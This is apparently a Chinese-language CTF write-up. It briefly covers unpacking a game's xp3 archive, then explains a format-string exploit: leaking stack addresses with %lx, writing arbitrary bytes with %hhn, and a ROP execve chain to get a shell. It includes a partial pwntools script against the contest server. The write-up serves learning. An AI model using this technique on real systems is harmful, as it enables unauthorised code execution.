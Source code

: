 ![Snipaste_2023-10-14_19-51-00](writeup_gzz.assets/Snipaste_2023-10-14_19-51-00.png)





## 汉化绿色版免费下载

只做出flag1。用binwalk直接解包xp3，就可以获得游戏的代码。或者后来发现还有专门解包xp3的工具。

flag2我看到是个RK hash，但是解出来一大堆解，不会了。



## 初学 C 语言

现学[format string利用](https://ctf-wiki.org/pwn/linux/user-mode/fmtstr/fmtstr-intro/)。

首先在栈中找到两个基准的数字，获得栈的基址和程序段的基址，这里我选的就是publics的位置（`%3$lx`）和从test返回到main的ret的位置（`%165$lx`）。之后的所有地址都要根据这两个基址换算一下。

然后我们就可以用ctf wiki教我们的技巧，做任意地址写了。因为本题限制了输出长度不能太长，我们一次只写一个字节，大概结构就是`%111c%222$hhn`这样。

用任意地址写 配合ROPgadget来构造execve syscall即可弹shell。

```python
import os
from pwn import *

p = remote('prob09.geekgame.pku.edu.cn', 10009)
print(p.recv())
p.send(b'1028:MEUCICxMvhT6LqfaBQVlVes6jggfPmSUUQI0e8YP4ibd7XNbAiEAu_YOxkt9PkQsDNSHz53vvMKnJ6CFmwfdZQF_NnxyIkw=\n')

p.recvuntil(b'Please input your instruction:\n')
p.send(b'%3$lx=publics;%165$lx=ret\n')

# stack relative.
addr_publics = int(p.recvuntil(b'=publics;', drop=True), 16)
info('addr_publics %x', addr_publics)
addr_format_buf = addr_publics - 0x7ffd8bbe0620 + 0x7ffd8bbe06a0
info('addr_format_buf %x', addr_format_buf)
addr_rsp = addr_format_buf - 0x00007ffe38b38ac0 + 0x00007ffe38b389d8
info('addr_rsp %x', addr_rsp)
addr_ptr_rettest = addr_rsp + 1280
first_format_as_param = 34  # offset of format string

# code relative.
# on our test run at printf frame, $rsp=0x7ffff9d30798
# then, the ret to main is on stack 0x7ffff9d30c98  ($rsp+1280 (160*8))
```